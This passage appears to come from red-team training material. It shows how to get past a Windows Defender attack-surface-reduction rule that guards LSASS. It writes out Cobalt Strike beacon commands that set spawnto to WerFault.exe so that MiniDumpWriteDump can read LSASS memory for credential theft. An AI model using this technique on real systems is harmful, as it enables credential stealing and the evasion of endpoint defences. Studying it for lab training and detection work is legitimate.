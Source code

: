 ****_"This rule helps prevent credential stealing, by locking down Local Security Authority Subsystem Service (LSASS)."_

At its heart, this rule prevents you from opening a handle to LSASS with PROCESS_VM_READ privileges.  As an example, we can try and read LSASS using the **MiniDumpWriteDump** API.

beacon> getuid
[*] You are RTO2\amoss (admin)

beacon> spawnto x64 C:\Windows\System32\notepad.exe
[*] Tasked beacon to spawn x64 features to: C:\Windows\System32\notepad.exe

beacon> execute-assembly C:\Tools\MiniDumpWriteDump\bin\Debug\MiniDumpWriteDump.exe
[X] MiniDumpWriteDump Failed

  

  I'm ensuring the spawnto is set to notepad because Defender will catch and kill the Beacon if rundll32 is used.

  

As with other ASR rules, not all processes appear to be blocked.  WerFault (Windows Error Reporting) is an application responsible for error reporting on Windows.  When an application crashes, werfault.exe is spawned as a child and collects debug information for reporting purposes.

By setting our spawnto to werfault, we can obtain a handle to LSASS which includes the permission to read its memory.

beacon> spawnto x64 C:\Windows\System32\WerFault.exe
[*] Tasked beacon to spawn x64 features to: C:\Windows\System32\WerFault.exe
[+] host called home, sent: 40 bytes

beacon> execute-assembly C:\Tools\MiniDumpWriteDump\bin\Debug\MiniDumpWriteDump.exe
[!] MiniDumpWriteDump Succeeded

